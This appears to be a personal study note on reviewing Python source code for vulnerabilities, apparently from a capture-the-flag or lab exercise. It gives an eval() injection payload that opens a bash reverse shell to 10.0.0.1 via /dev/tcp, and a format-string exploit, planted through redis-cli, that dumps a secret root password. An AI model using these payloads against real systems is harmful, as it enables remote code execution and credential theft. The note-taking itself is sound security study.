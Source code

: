 ```yaml
---
creation date: May 19th 2023
last modified date: May 19th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Python Source Code Review]]  
___

## Description:  

### Eval() or Exec()
Can execute code
source
```
def addition(a, b):  
  return eval("%s + %s" % (a, b))result = addition(request.json['a'], request.json['b'])  
print("The result is %d." % result)
```
expect input:
```
{"a":"1", "b":"2"}
```
how to exploit:
```
{"a":"__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')#", "b":"2"}
```

### Format String Exploit
https://podalirius.net/en/articles/python-format-string-vulnerabilities/

Look for curly brackets in source code:
```
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```
you need to use the correct class (not self like in the link above, in this case its license), and then choose a variable you want to dump (secret).
```
secret = [line.strip() for line in open("/root/license/secret")][0]
```

In this specific example, the script was pulling from a redis database, so the exploit was set there with `{license.__init__.__globals__[secret]}`:

```
/usr/bin/redis-cli -s /var/run/redis/redis.sock HSET test username "{license.__init__.__globals__[secret]}"

sudo /usr/bin/license -p test
```
This allowed me to dump secret, which was a password to the root account.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 19th 2023 (09:53 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
